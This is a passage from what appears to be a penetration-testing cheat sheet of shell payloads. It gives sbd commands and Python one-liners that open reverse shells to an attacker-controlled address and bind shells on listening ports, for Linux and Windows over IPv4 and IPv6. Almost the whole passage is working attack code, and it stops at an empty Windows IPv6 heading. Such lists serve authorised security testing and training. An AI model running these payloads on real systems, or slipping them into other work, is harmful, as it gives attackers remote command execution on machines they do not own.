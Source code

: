 ### SBD
[SBD](https://gitlab.com/kalilinux/packages/sbd) is a NetCat-Clone, it's a simple and secure NetCat alternative designed to be portable and provides SSL support.

#### Reverse Shell
```bash
sbd -e bash <Attacker_IP> <Attacker_Port>
```

#### Bind Shell
```bash
sbd -l -p <port> -e bash
```


### Python

#### Reverse Shell
```bash
# Linux IPv4
export RHOST="127.0.0.1";export RPORT=12345;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

# Linux IPv6
python -c 'import socket,subprocess,os,pty;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("dead:beef:2::125c",4343,0,2));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=pty.spawn("/bin/sh");'

# Windows IPv4
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.1",4343));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["cmd.exe"]);'

# Windows IPv6
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("dead:beef:2::125c",4343,0,2));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["cmd.exe"]);'
```

#### Bind Shell

```python
# Linux IPv4
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.bind(("",4343));s.listen(1);conn,addr=s.accept();os.dup2(conn.fileno(),0);os.dup2(conn.fileno(),1);os.dup2(conn.fileno(),2);subprocess.call(["/bin/sh","-i"])'

# Linux IPv6
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.bind(("[::]",4343));s.listen(1);conn,addr=s.accept();os.dup2(conn.fileno(),0);os.dup2(conn.fileno(),1);os.dup2(conn.fileno(),2);subprocess.call(["/bin/sh","-i"])'

# Windows IPv4
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.bind(("",4343));s.listen(1);conn,addr=s.accept();os.dup2(conn.fileno(),0);os.dup2(conn.fileno(),1);os.dup2(conn.fileno(),2);subprocess.call(["cmd.exe"])'

# Windows IPv6
```